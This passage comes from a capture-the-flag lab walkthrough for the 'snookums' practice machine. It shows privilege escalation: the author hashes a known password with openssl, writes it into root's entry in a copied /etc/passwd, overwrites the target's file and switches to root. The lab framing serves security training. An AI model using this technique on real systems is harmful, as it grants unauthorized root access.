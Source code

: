 ```

>command: openssl passwd 1234567890

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ openssl passwd 1234567890
$1$jKxj2MJv$qfMmM3mHFTgVv.2t27Rl4.
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ 
```
We'll add this hashed password to the passwd file we created

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ gedit passwd
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ cat passwd
root:$1$jKxj2MJv$qfMmM3mHFTgVv.2t27Rl4.:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
michael:x:1000:1000:Michael:/home/michael:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
```
observe I replaced the ```x``` from the root user to the hashed password. Now, lets send this file to the target's machine so it can overwrite the previous passwd file

![image](https://user-images.githubusercontent.com/67879936/222939908-8f0fdc33-96d1-4a65-affb-a288a38b0d2d.png)

it worked, now lets switch user to root user then provide the password we hashed using openssl, in my case the password was ```1234567890```.

![image](https://user-images.githubusercontent.com/67879936/222939950-4ace5808-5605-4235-9e35-156e1bcbf4ce.png)

Boom!!! We got shell as the root user.

That will be all for today
<br> <br>
[Back To Home](../../index.md)



```